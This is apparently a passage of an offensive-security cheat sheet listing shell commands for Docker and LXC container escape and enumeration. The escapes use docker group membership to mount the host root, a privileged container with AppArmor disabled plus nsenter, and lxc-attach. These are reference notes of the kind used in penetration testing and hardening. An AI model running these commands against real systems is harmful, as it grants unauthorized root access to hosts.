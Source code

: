 #### Escaping Docker Containers
- **Escape a Docker Container (if `docker` Group is Misconfigured):**
	```bash
	docker run -v /:/mnt --rm -it alpine chroot /mnt sh
	```
- **Escape a Docker Container Using Mount Namespace:**
	```bash
	docker run -it --rm --cap-add=SYS_ADMIN --security-opt=apparmor=unconfined ubuntu bash
	mount -t proc proc /proc
	nsenter --target 1 --mount --uts --ipc --net --pid
	```

#### LXC/LXD Enumeration
- **Lists all LXC containers:**
	```bash
	lxc list
	```
- **Displays information about LXC containers:**
	```bash
	lxc info
	```

####  Escaping LXC Containers
- **Escape from an LXC Container:**
	```bash
	lxc-attach -n <container> /bin/sh
	```
